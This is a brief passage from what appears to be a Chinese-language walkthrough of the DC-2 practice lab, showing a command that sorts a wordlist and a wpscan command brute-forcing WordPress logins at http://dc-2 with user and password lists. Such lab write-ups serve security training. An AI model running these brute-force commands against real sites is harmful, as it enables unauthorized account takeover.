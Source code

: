 





### 处理字典

```
cat dic|sort|uniq|sort -nr>dic
```

![image-20250309135718957](./assets/image-20250309135718957.png)





### 重新利用wpscan爆破

```
wpscan --url http://dc-2 -U user.txt -P dic
```

![image-20250309135748028](./assets/image-20250309135748028.png)



![image-20250309135841848](./assets/image-20250309135841848.png)
